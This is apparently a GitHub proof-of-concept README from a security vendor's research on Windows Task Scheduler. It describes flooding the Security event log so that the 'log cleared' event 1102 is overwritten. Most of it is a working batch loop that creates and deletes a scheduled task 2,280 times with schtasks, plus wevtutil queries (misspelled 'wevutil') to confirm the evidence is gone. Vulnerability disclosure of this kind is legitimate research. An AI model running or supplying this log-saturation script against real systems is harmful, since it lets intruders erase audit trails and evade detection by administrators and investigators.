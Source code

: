 # Security Logs Saturation
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>

An attacker can register a task with a 5KB XML file - See [TaskScheduler-Logs-Tampering](https://github.com/rubenformation/TaskScheduler-Logs-Tampering), with a low privileged user and a password, which will not run. But the log is still registered, with a 3500 bytes buffer. It is possible to overwrite the whole Security.evtx database, since it is configured to contain maximum 20MB of logs by default. 
<br>
<br>

#### Requirements
<br>

- An unprivileged user to run the task
- A working password for the XML task to be registered, event if an error is generated
- The Security Policy "Audit Other Object Access Events" is enabled
<br>

#### Command
<br>

> Run the script
```bash
# Clear the logs to test if the only log "Clear Log" EVENT ID 1102 is overwritten.
# Check if the 1102 has been generated in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

@echo off
for /l %%i in (1,1, 2280) do ( 
    schtasks /create /tn poc /xml poc.xml /ru <user> /rp <password> >nul 2>&1 & schtasks /delete /tn poc /f >nul 2>&1
)
echo OK
```
<br>

> Check the logs
```bash
# Check if the 1102 log still remains in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

# If the result is empty, the Security.evtx database has been overwritten. 
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
